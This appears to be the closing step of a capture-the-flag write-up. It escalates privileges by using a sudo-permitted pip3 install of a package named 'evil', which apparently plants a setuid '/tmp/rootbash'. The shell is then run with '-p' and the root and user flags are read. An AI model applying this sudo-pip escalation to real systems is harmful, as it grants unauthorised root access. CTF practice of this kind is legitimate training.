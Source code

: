 ```bash
sudo /usr/bin/pip3 install --break-system-packages .
```

```bash
Processing /tmp/evil
  Preparing metadata (setup.py): started
  Preparing metadata (setup.py): finished with status 'done'
Building wheels for collected packages: evil
  Building wheel for evil (setup.py): started
  Building wheel for evil (setup.py): finished with status 'done'
  Created wheel for evil: filename=evil-0.1-py3-none-any.whl size=896 sha256=758d85fb642ae32b15b70003a5e7bb500acd29d138e0adfcbaeda26fe26124ac
  Stored in directory: /tmp/pip-ephem-wheel-cache-ltoix1m9/wheels/0b/1a/8f/6c60c7ea43f95d871ebf1bfd217a531ca290bd8fe23942389f
Successfully built evil
Installing collected packages: evil
Successfully installed evil-0.1
WARNING: Running pip as the 'root' user can result in broken permissions and conflicting behaviour with the system package manager. It is recommended to use a virtual environment instead: https://pip.pypa.io/warnings/venv
```

```bash
/tmp/rootbash -p
```

```bash
cat /root/root.txt /home/helpdesk/user.txt 
flag{request_has_been_escalated}
flag{ticket_approved_by_thedesk}
```